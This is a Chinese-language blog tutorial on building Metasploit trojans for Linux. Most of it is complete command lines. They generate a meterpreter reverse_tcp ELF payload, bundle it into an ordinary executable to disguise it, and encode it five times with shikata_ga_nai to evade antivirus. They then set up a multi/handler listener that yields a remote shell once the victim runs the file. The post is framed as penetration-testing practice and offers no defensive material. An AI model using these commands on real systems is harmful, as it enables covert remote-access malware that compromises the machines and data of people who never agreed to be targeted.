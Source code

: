 ```yaml
---
title: Metasploit 木马编译利用
date: 2022-4-2 23:29:09
tags: [Trojan horse,Linux,Kali,Metasploit]
categories: 
 - 木马-Trojan horse
cover: https://res.cloudinary.com/sycamore/image/upload/v1682442126/Typera/2023/04/87d91c5d20cc130aa72fe99c74a9e8c2.png
---
```


:::default
**Metasploit**是一个开源的，可用来**发现**、**验证**并**利用**漏洞的渗透测试平台。

Kali 中默认安装了 **Metasploit** 框架。
:::

## msfvenom 命令实现木马生成、捆绑以及免杀处理

**简介：**

**msfvenom** 是 **Metasploit** 中的一个命令。

**msfvenom** 命令结合了 msfpayload 和 msfencoder 的功能，能够**生成木马**，并实现木马编码**免杀**和避免坏字符、捆绑木马等。

### msfvenom 命令用法
涉及到的**选项**有：

**-l**：列出指定**模块**（包括payloads, encoders, nops, platforms, archs, encrypt, formats, all）的所有可用**资源**。其中 **payloads** 对应的就是**木马**。

**-p**：指定需要使用的 **payload** ，可以指定 ‘-’ 或者 stdin 来**自定义** payload。
如果不知道 payload 包括哪些选项，可以使用 `--list-options` 列出 payload 的标准选项。

**-f**：指定payload的**输出格式**，可以使用 `--list formats` 来列出可选的格式。

**-o**：指定输出的payload的**保存路径**，也可以采用**重定向**的方式来替代-o选项。

**-x**： 指定一个**自定义**的**可执行文件**作为模板。即，把木马**捆绑**到指定的可执行文件上。

**-e**：指定使用的**编码器**（）。

**-i**： 指定对 payload 编码的**次数**
### 木马生成
1. 先使用 `msfvenom -l payloads` 命令，查看**可用的木马**。
因为可用的木马有**很多**，所以可以根据所需木马的特性、结合 **grep** 限定木马的种类 ![image-20230426010221520](https://res.cloudinary.com/sycamore/image/upload/v1682442146/Typera/2023/04/ebeb726eacc7fad3302b80554fb13af1.png)
以木马 `linux/x86/meterpreter/reverse_tcp`（反向连接)作为样例，
<br>
2. 查看该木马**需要设置的选项**：
`msfvenom -p linux/x86/meterpreter/reverse_tcp --list-options`![image-20230426010409894](https://res.cloudinary.com/sycamore/image/upload/v1682442254/Typera/2023/04/874f3751e4961c5140e9e30ca40f22e7.png)


<br>

3. 查看可指定的**输出格式**：
`msfvenom --list formats`![image-20230426010426398](https://res.cloudinary.com/sycamore/image/upload/v1682442270/Typera/2023/04/38ea1bb4d485262080541e030e6fc0a3.png)
<br>

4. 参考上面得到的信息，构造**生成木马**的命令：
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -f elf -o /root/payload.elf`![image-20230426010433724](https://res.cloudinary.com/sycamore/image/upload/v1682442278/Typera/2023/04/09553b61c2c9d88fe78ede3ea742468a.png)


其中，**-p** 选择生成的木马为：**linux/x64/shell_bind_tcp**；
**RHOST** 指定将要攻击的**目标主机**的**IP**；
**LPORT** 指定对应端口号（默认为4444，故可以不写）；
**-f** 指定生成木马文件的文件**类型**为 **elf**
**-o** 指定保存生成的木马文件的**地址**为：**/root/payload.elf**

### 木马捆绑
通常情况下，木马会和正常的文件**捆绑**在一起，方便木马进行**感染**和**传播**。

所以，我们要事先准备好一个用于**绑定**的文件，这里选用的是 `/root/hello_world`（ **gcc** 编译的一个简单的C程）。

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -f elf -x /root/hello_world -o /root/payload_bundle.elf`
![image-20230426010440843](https://res.cloudinary.com/sycamore/image/upload/v1682442285/Typera/2023/04/c7bc72a382ae694be589d6a5cb25a3de.png)


其中，**-x** 指定**绑定**的可执行文件为 `/root/hello_world`，其余项与生成木马的指令一致。


### 木马免杀
在杀毒软件泛滥的今天，不对木马文件进行免杀处理很难通过**杀软的检查**，所以需要对木马进行**免杀**处理。

查看可用的编码器：`msfvenom -l encoders`
![image-20230426010444808](https://res.cloudinary.com/sycamore/image/upload/v1682442290/Typera/2023/04/d9aa39a90db02fe251a93aff3dd31cb7.png)

选用**免杀**效果较好的 **x86/shikata_ga_nai** 编译器进行编码。
命令：`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f elf -x /root/hello_world -o /root/payload_Anti_Virus.elf`
![image-20230426010449517](https://res.cloudinary.com/sycamore/image/upload/v1682442294/Typera/2023/04/9f32f881202e4a535bac4f5ce0f8c517.png)


其中，**-e** 指定编译器为 **x86/shikata_ga_nai**，
**-i** 指定编码的次数为 5 次。
编码 **5** 次的木马，基本可以**躲避部分**杀软的查杀，

当然可以对木马进行**更多次**的编码，这样可以**提高**木马的**免杀机率**，但是需要注意：这也可能会导致木马**不可使用**。

## msfconsole 木马利用
使用之前生成的木马文件： **payload.elf**。

### 攻击端：

输入命令 `msfconsole` 打开 **MSF 控制台**
![image-20230426010454524](https://res.cloudinary.com/sycamore/image/upload/v1682442298/Typera/2023/04/2c2e815f13d049741cd9371ace771daa.png)



输入命令：`use exploit/multi/handler`，选择exploit模块

然后，可以输入命令 `show options` 查看**设置的参数**（查看还要设置哪些）
![](https://cdn.jsdelivr.net/gh/noneSycamore/blog_pic_url/trojan-horse10.png)




命令 `set PAYLOAD linux/x86/meterpreter/reverse_tcp` ，设置 **PAYLOAD** 
命令 `set LHOST 192.168.158.132`，设置local host 的**IP**

命令 `run` 开始**监听**对应的端口，等待**目标服务器**执行**木马**后，就能获得 **shell**。
如下图所示：
![image-20230426010500036](https://res.cloudinary.com/sycamore/image/upload/v1682442304/Typera/2023/04/8b2780434593170f1b8173cf9fa13836.png)



### 目标服务器：

用各种方式将**木马文件**传到**目标服务器**上，

命令 `chmod +x payload.elf` 更改文件执行权限

执行 **payload.elf** 文件（**顺序**：要在攻击端开始监听之后执行）：
![image-20230426010506608](https://res.cloudinary.com/sycamore/image/upload/v1682442311/Typera/2023/04/80d816c18312f780f743c4b82696c43f.png)


整理一下：
- 攻击端：
1. `msfconsole`
2. `use exploit/multi/handler`
3. `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
4.` set LHOST 192.168.158.132`
5. `run`，开始监听
- 目标服务器：
1. 下载木马文件
2. `chmod +x payload.elf`
3. `./ payload.elf`
